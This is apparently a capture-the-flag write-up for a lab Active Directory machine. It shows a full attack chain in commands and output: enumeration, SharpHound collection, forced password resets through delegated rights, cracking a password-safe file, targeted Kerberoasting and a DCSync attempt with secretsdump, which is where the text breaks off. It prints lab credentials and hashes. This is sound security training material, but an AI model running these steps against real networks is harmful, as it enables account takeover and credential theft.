







**Given Credetial: Username: Olivia Password: ichliebedich**

First start with Nmap scan
```jsx
$ nmap 10.10.11.42              
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-09 17:21 EST
Nmap scan report for administrator.htb (10.10.11.42)
Host is up (0.33s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl

```
Here, we can see that port 21 for FTP is open, the SMB port is open, and the system is Active Directory-based.

To have a comprehensive overview, apply a detailed scan, including service version detection and a default script scan.

```jsx
┌──(kali㉿kali)-[~]
└─$ nmap -sV -sC -A 10.10.11.42
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-09 17:23 EST
Nmap scan report for administrator.htb (10.10.11.42)
Host is up (0.38s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-02-09 23:09:10Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 10|Vista|2016|2019|2022|2012|7|8.1|11 (93%)
OS CPE: cpe:/o:microsoft:windows_10:1703 cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2016 cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2012 cpe:/o:microsoft:windows_7:::ultimate cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_8
Aggressive OS guesses: Microsoft Windows 10 1703 (93%), Microsoft Windows Vista SP1 (92%), Microsoft Windows Server 2016 build 10586 - 14393 (92%), Microsoft Windows 10 1511 (92%), Microsoft Windows Server 2019 (92%), Windows Server 2022 (92%), Microsoft Windows Server 2012 (91%), Microsoft Windows 10 1507 - 1607 (91%), Microsoft Windows Server 2016 (91%), Microsoft Windows 7, Windows Server 2012, or Windows 8.1 Update 1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 44m29s
| smb2-time: 
|   date: 2025-02-09T23:09:50
|_  start_date: N/A

TRACEROUTE (using port 143/tcp)
HOP RTT       ADDRESS
1   361.79 ms 10.10.14.1
2   386.75 ms administrator.htb (10.10.11.42)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 125.14 seconds
                                                               
```
From here, we have the domain `administrator.htb`.

To ensure our system resolves `administrator` to `10.10.11.42`, we need to verify the hostname resolution.

```jsx
┌──(kali㉿kali)-[~]
└─$ sudo cat /etc/hosts
[sudo] password for kali: 
127.0.0.1       localhost
127.0.1.1       kali

10.10.11.42 administrator.htb
                               
```

Now, we use `netexec` for SMB user enumeration.

```jsx
──(kali㉿kali)-[~]
└─$ netexec smb 10.10.11.42 -u Olivia  -p  'ichliebedich' --users --rid-brute

SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.42     445    DC               [+] administrator.htb\Olivia:ichliebedich 
SMB         10.10.11.42     445    DC               -Username-                    -Last PW Set-       -BadPW- -Description-                                                                                     
SMB         10.10.11.42     445    DC               Administrator                 2024-10-22 18:59:36 0       Built-in account for administering the computer/domain                                            
SMB         10.10.11.42     445    DC               Guest                         <never>             0       Built-in account for guest access to the computer/domain                                          
SMB         10.10.11.42     445    DC               krbtgt                        2024-10-04 19:53:28 0       Key Distribution Center Service Account                                                           
SMB         10.10.11.42     445    DC               olivia                        2024-10-06 01:22:48 0 
SMB         10.10.11.42     445    DC               michael                       2025-02-09 22:54:24 0 
SMB         10.10.11.42     445    DC               benjamin                      2025-02-09 22:58:33 0 
SMB         10.10.11.42     445    DC               emily                         2024-10-30 23:40:02 0 
SMB         10.10.11.42     445    DC               ethan                         2024-10-12 20:52:14 0 
SMB         10.10.11.42     445    DC               alexander                     2024-10-31 00:18:04 0 
SMB         10.10.11.42     445    DC               emma                          2024-10-31 00:18:35 0 
SMB         10.10.11.42     445    DC               [*] Enumerated 10 local users: ADMINISTRATOR
SMB         10.10.11.42     445    DC               498: ADMINISTRATOR\Enterprise Read-only Domain Controllers (SidTypeGroup)                                                                                   
```
Here, the output shows usernames like `ethan`, `emma`, and others.

To view SMB shares, we use `smbclient`, and we have different SMB shares.

```jsx
──(kali㉿kali)-[~]
└─$ smbclient -L  \\\\10.10.11.42\\ -U Olivia      
Password for [WORKGROUP\Olivia]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.42 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
                                                         
```
I tried to log in to shares like `Admin$` and `C$`, but I was not able to access them.  
Here, I found no useful information.

Now, we are able to gain a PowerShell session using `evil-winrm`.  
Here, we will upload `SharpHound.exe` and run it to get a complete picture of the network.

```jsx
*Evil-WinRM* PS C:\Users\olivia\Documents> ls
*Evil-WinRM* PS C:\Users\olivia\Documents> upload /home/kali/SharpHound.exe
                                        
Info: Uploading /home/kali/SharpHound.exe to C:\Users\olivia\Documents\SharpHound.exe
                                        
Error: Upload failed. Check filenames or paths: No such file or directory - No such file or directory /home/kali/SharpHound.exe                                                                                 
*Evil-WinRM* PS C:\Users\olivia\Documents> ls
*Evil-WinRM* PS C:\Users\olivia\Documents> upload /home/kali/Downloads/SharpHound.exe
                                        
Info: Uploading /home/kali/Downloads/SharpHound.exe to C:\Users\olivia\Documents\SharpHound.exe
                                        
Data: 1395368 bytes of 1395368 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\olivia\Documents> ls


    Directory: C:\Users\olivia\Documents


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          2/9/2025   3:21 PM        1046528 SharpHound.exe


*Evil-WinRM* PS C:\Users\olivia\Documents> . .\SharpHound.exe
2025-02-09T15:21:33.7577069-08:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2025-02-09T15:21:33.8827498-08:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, 
.
.
.
.
.
 2 sid to domain mappings.
 0 global catalog mappings.
2025-02-09T15:22:18.6170723-08:00|INFORMATION|SharpHound Enumeration Completed at 3:22 PM on 2/9/2025! Happy Graphing!
*Evil-WinRM* PS C:\Users\olivia\Documents> ls


    Directory: C:\Users\olivia\Documents


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          2/9/2025   3:22 PM          11853 20250209152218_BloodHound.zip
-a----          2/9/2025   3:22 PM           8824 NDI3ZmMyMGItNzc4Ny00MzE1LTllNDItYTM4YTEzYjcyZDFj.bin
-a----          2/9/2025   3:21 PM        1046528 SharpHound.exe


*Evil-WinRM* PS C:\Users\olivia\Documents> download 20250209152218_BloodHound.zip
                                        
Info: Downloading C:\Users\olivia\Documents\20250209152218_BloodHound.zip to 20250209152218_BloodHound.zip                                                                                                                                        
Info: Download successful!
*Evil-WinRM* PS C:\Users\olivia\Documents>
```
Once the `SharpHound` execution is complete, we download the collected data to our system.  

Now, we use `BloodHound` to analyze the Active Directory (AD) network.  

Run a `neo4j` console and open the file in `BloodHound` for further enumeration.

```jsx
┌──(kali㉿kali)-[~]
└─$ sudo neo4j console                                                       
[sudo] password for kali: 
Directories in use:
home:         /usr/share/neo4j
config:       /usr/share/neo4j/conf
logs:         /etc/neo4j/logs
plugins:      /usr/share/neo4j/plugins
import:       /usr/share/neo4j/import
data:         /etc/neo4j/data
certificates: /usr/share/neo4j/certificates
licenses:     /usr/share/neo4j/licenses
run:          /var/lib/neo4j/run
Starting Neo4j.

```
Complete picture



Now, we are using the `Olivia` account and have `GenericAll` permission on the `Michael` user.  

So, we open `evil-winrm` again and run the command below to change Michael's password.

`net user michael HelloMichael /domain`




```jsx
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.10.11.42 -u Olivia -p 'ichliebedich'    
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\olivia\Documents> net user michael HelloMichael /domain
The command completed successfully.

*Evil-WinRM* PS C:\Users\olivia\Documents> 

```

We can see that the command executed successfully:  

```
Username: Michael  
Password: HelloMichael
```

Now, we open a PowerShell session again using the `Michael` account with the new password.  


Go back to `BloodHound` to check the outbound object control for `Michael`.




Since Michael has the `ForceChangePassword` privilege on Benjamin, we can change Benjamin's password without knowing the current one.

```powershell
Set-ADAccountPassword -Identity Benjamin -NewPassword (ConvertTo-SecureString "HelloBenjamin" -AsPlainText -Force) -Reset
```

```jsx
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.10.11.42 -u Michael -p 'HelloMichael'

                                        
Evil-WinRM shell v3.7

                                        
*Evil-WinRM* PS C:\Users\michael\Documents> 
*Evil-WinRM* PS C:\Users\michael\Documents> Set-ADAccountPassword -Identity Benjamin -NewPassword (ConvertTo-SecureString "HelloBenjamin" -AsPlainText -Force) -Reset
*Evil-WinRM* PS C:\Users\michael\Documents> exit

```

After changing the password, I tried to log in to the `Benjamin` account, but `evil-winrm` did not work for Benjamin.  

Let's try using `rpcclient` instead.


```jsx
┌──(kali㉿kali)-[~]
└─$ rpcclient -U "administrator.htb\Benjamin%HelloBenjamin" 10.10.11.42

rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[olivia] rid:[0x454]
user:[michael] rid:[0x455]
user:[benjamin] rid:[0x456]
user:[emily] rid:[0x458]
user:[ethan] rid:[0x459]
user:[alexander] rid:[0xe11]
user:[emma] rid:[0xe12]
rpcclient $> 
rpcclient: missing argument
rpcclient $> exit
```

The command confirms that the password for the `Benjamin` user has been successfully changed.  

For `Benjamin`, there is no outbound object control.  

When accessing FTP using Benjamin's credentials, I found a `.psafe3` file.  
Download this file for further analysis.

```jsx                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ ftp 10.10.11.42                                                  
Connected to 10.10.11.42.
220 Microsoft FTP Service
Name (10.10.11.42:kali): Benjamin
331 Password required
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
10-05-24  08:13AM                  952 Backup.psafe3
226 Transfer complete.
ftp> get Backup.psafe3
local: Backup.psafe3 remote: Backup.psafe3
229 Entering Extended Passive Mode (|||53838|)
125 Data connection already open; Transfer starting.
100% |**********************************************************************************************|   
```

The `Backup.psafe3` file is password-protected, so we use `John` to crack the password.

```jsx
┌──(kali㉿kali)-[~]
└─$ pwsafe Backup.psafe3
                                                                                                                                        
┌──(kali㉿kali)-[~]
└─$ pwsafe2john Backup.psafe3 > hashpwsafe.txt
                                                                                                                           
┌──(kali㉿kali)-[~]
└─$ cat hashpwsafe.txt 
Backu:$pwsafe$*3*4ff588b74906263ad2abba592aba35d58bcd3a57e307bf79c8479dec6b3149aa*2048*1a941c10167252410ae04b7b43753aaedb4ec63e3f18c646bb084ec4f0944050

┌──(kali㉿kali)-[~]
└─$ john  --show hashpwsafe.txt 

Backu:tekieromucho

1 password hash cracked, 0 left
```

Here, we have three usernames and their passwords.



```jsx
alexander:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
Emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb
emma:WwANQWnmJnGV07WQN8bMS7FMAbjNur
```

Here, I found the user flag under the `Emily` account.

```jsx
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.10.11.42 -u Emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'

                                        
Evil-WinRM shell v3.7
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\emily\Documents> cd ..
*Evil-WinRM* PS C:\Users\emily> cd Desktop
*Evil-WinRM* PS C:\Users\emily\Desktop> cat user.txt
************1bfda6dc155cb3******
*Evil-WinRM* PS C:\Users\emily\Desktop> 

```

Once we have the passwords for three users and `Emily` has the user flag, let's use `BloodHound` to check the outbound object control for Emily.



Emily has `GenericWrite` access on the `Ethan` user. This means we can modify most attributes of the target object.  

Now, we use `TargetedKerberoast.py` to exploit this permission, as suggested by `BloodHound`.




### How It Works  

1. Adds a **Service Principal Name (SPN)** to `Etham`'s account, allowing a Kerberos ticket request.  
2. Requests a **Kerberos ticket** for the newly added SPN.  
3. Extracts the **TGS (Ticket Granting Service) hash**, which can be cracked offline.  
4. **SPNs can be added** using `GenericWrite`, enabling a Kerberoasting attack.  
5. **Kerberos tickets** are extractable once an SPN exists on an account.  


```jsx
┌──(kali㉿kali)-[~/Downloads]
└─$ python3 targetedKerberoast.py -v -d administrator.htb -u emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'

[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[!] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
Traceback (most recent call last):
  File "/home/kali/Downloads/targetedKerberoast.py", line 597, in main
    tgt, cipher, oldSessionKey, sessionKey = getKerberosTGT(clientName=userName, password=args.auth_password, domain=args.auth_domain, lmhash=None, nthash=auth_nt_hash,
                                             ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/impacket/krb5/kerberosv5.py", line 323, in getKerberosTGT
    tgt = sendReceive(encoder.encode(asReq), domain, kdcHost)
          ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/impacket/krb5/kerberosv5.py", line 93, in sendReceive
    raise krbError
impacket.krb5.kerberosv5.KerberosError: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```
If the issue **"Clock skew too great"** occurs, run the following command to fix it:  

### Why This Is Necessary:  
- **Fixes Clock Skew:** In Active Directory environments, **Kerberos authentication** requires accurate time synchronization (typically within 5 minutes).  
- **Prepares for Kerberos Attacks:** If your machine's time is out of sync with the target **domain controller**, Kerberos-based attacks (e.g., **Pass-the-Ticket, AS-REP Roasting**) might fail.  


```jsx
┌──(kali㉿kali)-[~/Downloads]
└─$ sudo ntpdate -u 10.10.11.42

[sudo] password for kali: 
2025-02-09 19:16:43.921905 (-0500) +3071.615925 +/- 0.213648 10.10.11.42 s1 no-leap
CLOCK: time stepped by 3071.615925
```

Now, the command has run successfully, and we have a **Kerberoasting hash** for the `Ethan` user.


```jsx
┌──(kali㉿kali)-[~/Downloads]
└─$ python3 targetedKerberoast.py -v -d administrator.htb -u emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'

[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (ethan)
[+] Printing hash for (ethan)
$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$42b3ad3d3990612b7247d8c2fa59d05f$98b3927fcbebaee2c91a65e593f4d7e6b9ec28dc41b60c13269454723d02d0299fef8de5af2cb72458f00dff805337c2239f4a1075a8762d34498e693a456b3ca09ebe0e130d7ff2de22c0589b99d96d436b7f72fd9bde5659d0cb41168f0b5637b418591b278eb4f1d8b8a63aae8bea6300c463645583bd50a077966d7cc354c9a2b01adb
.
.
.
.
.
*************
[VERBOSE] SPN removed successfully for (ethan)                          
```

Now, run `hashcat` to crack the hash, and we obtain the password for the `Ethan` user.


```jsx
┌──(kali㉿kali)-[~/Downloads]
└─$ hashcat -m 13100 -a 0 krb5tgs.txt /usr/share/wordlists/rockyou.txt --force 

hashcat (v6.2.6) starting

Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

* Keyspace..: 14344385

$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$42b3ad3d3990612b7247d8c2fa59d05f$98b3927fcbebaee2c91a65e593f4d7e6b9ec28dc41b60c13269454723d02d0299fef8de5af2cb72458f00dff805337c2239f4a1075a8762d34498e693a456b3ca09ebe0e130d7ff2de22c0589b99d9.
.
.
.

348fd6f1ffc9967d0a22ec0401fb5f7562fdd9b8f5dae72ce5899f83ac92fba7db0a6aee0ff56f0b3f4a5fc60252c4388e69ed719fece8d227c2413adb8a9dffdc4c9d48c6b112ecaadcb2037257422baa00d4468e3eb9c582b1eb3c61c60822a2539d215c9b4a9fb1249cca3cc185a535326c6574555a83405f62c7227b7225edee0fc2ba5da1f617dcbbc2407cd9d029b5e3eaa236a1cdd4:limpbizkit
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)Hash.Target......: $krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator....a1cdd4
Time.Started.....: Sun Feb  9 19:19:17 2025, (1 sec)
Started: Sun Feb  9 19:18:46 2025
Stopped: Sun Feb  9 19:19:19 2025
```
Now, for `Ethan`, we can see **DC Sync** privileges on the `Administrator` account.  



### What is DC Sync?  
**DC Sync** is an attack technique that allows an attacker to **imitate a Domain Controller (DC)** and request password hashes from Active Directory.  

Instead of dumping hashes from memory (like with `Mimikatz`'s `lsadump::sam`), **DC Sync** pulls them directly from the domain database by abusing Active Directory replication features.


So, we use `secretsdump.py` to exploit this and retrieve password hashes.

```jsx
┌──(kali㉿kali)-[~/Downloads]
└─$ impacket-secretsdump ethan:'limpbizkit'@administrator.htb

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
